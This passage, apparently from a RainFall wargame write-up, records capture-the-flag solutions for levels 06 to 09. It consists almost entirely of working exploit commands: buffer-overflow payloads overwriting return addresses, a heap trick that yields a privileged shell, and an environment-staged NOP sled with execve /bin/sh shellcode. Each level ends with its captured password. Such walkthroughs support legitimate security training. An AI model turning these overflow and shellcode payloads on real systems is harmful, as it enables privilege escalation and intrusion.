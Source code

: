 ```bash
cat .pass
d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31
```
## level 06
```bash

level6@RainFall:~$ ./level6 `python -c 'print "A"*72 + "\x54\x84\x04\x08"'`
f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d
```
## level 07
```bash

level7@RainFall:~$ ./level7 $(python -c 'print "A"*20 + "\x28\x99\x04\x08"') $(python -c 'print "\xf4\x84\x04\x08"')
5684af5cb4c8679958be4abe6373147ab52d95768e047820bf382e44fa8d8fb9
```
## level 08
```bash

level8@RainFall:~$ ./level8 
(nil), (nil) 
auth " " 
0x804a008, (nil) 
service ""
0x804a008, 0x804a018 
service "AAAA"
0x804a008, 0x804a028 
login
$ id
uid=2008(level8) gid=2008(level8) euid=2009(level9) egid=100(users) groups=2009(level9),100(users),2008(level8)
$ whoami 
level9
$ cat ../level9/.pass
cat: ../level9/.pass: Permission denied
$ cd ../level9
$ \
> 
$ ls
level9
$ ls 0a
ls: cannot access 0a: No such file or directory
$ ls -a
.  ..  .bash_logout  .bashrc  level9  .pass  .profile
$ cat .pass
c542e581c5ba5162a85f767996e3247ed619ef6c6f7b76a59435545dc6259f8a
```
## level 09
```bash

level9@RainFall:~$ env -i payload=$(python -c 'print "\x90"*1000+"\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh"') ./level9 $(python -c 'print "\x63\xfc\xff\xbf"+"B"*104+"\x0c\xa0\x04\x08"')
$ id
uid=2009(level9) gid=2009(level9) euid=2010(bonus0) egid=100(users) groups=2010(bonus0),100(users),2009(level9)
$ whoami 
bonus0
$ cd ../bonus0  
```